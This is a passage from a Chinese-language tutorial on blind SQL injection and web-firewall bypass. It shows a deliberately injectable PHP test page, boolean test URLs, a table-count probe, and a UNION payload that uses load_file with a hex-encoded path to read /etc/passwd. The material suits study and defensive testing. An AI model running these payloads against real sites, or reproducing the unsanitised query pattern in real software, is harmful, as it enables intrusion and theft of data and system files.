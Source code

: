 ```
'union select 1,load_file(0x2f6574632f706173737764),3 from users#

```

我敢说在盲注中不使用union select也是可以的。

记录的结果有三个。

```
admin' and (select count(*) from users)=3#

```

让我们使用盲注绕过web防火墙。以下是一份有存在盲注漏洞的代码

```
<?php

  /*** info.php ***/

  $n = $_GET['num'];
  if(empty($n)){
    $n = 1;
  }

  $dbhost = 'localhost';
  $dbuser = 'root';
  $dbpass = 'root';
  $database = 'injection_db';

  $db = mySQL_connect($host, $dbuser, $dbpass);
  mySQL_select_db($database,$db);
  $SQL = mySQL_query("select * from `users` where num=".$n) or die (mySQL_error());
  $info = @mySQL_fetch_row($SQL);
  echo "<body bgcolor=#000000>";
  echo "<h1><font color=#FFFFFF>wh1ant</font>";
  echo "<font color=#2BF70E> site for blind SQL injection test</h1><br>";
  echo "<h1><font color=#2BF70E>num: </font><font color=#D2691E>".$info[0]."</font></h1>";
  echo "<h1><font color=#2BF70E>user: </font><font color=#D2691E>".$info[1]."</font>";
  echo "<body>";
  mySQL_close($db);

?>

```

像上面那样的基本的盲注如下。

```
http://127.0.0.1/info.php?num=1 and 1=0
http://127.0.0.1/info.php?num=1 and 1=1

```

在Blind SQL Injection可以使用运算符=。
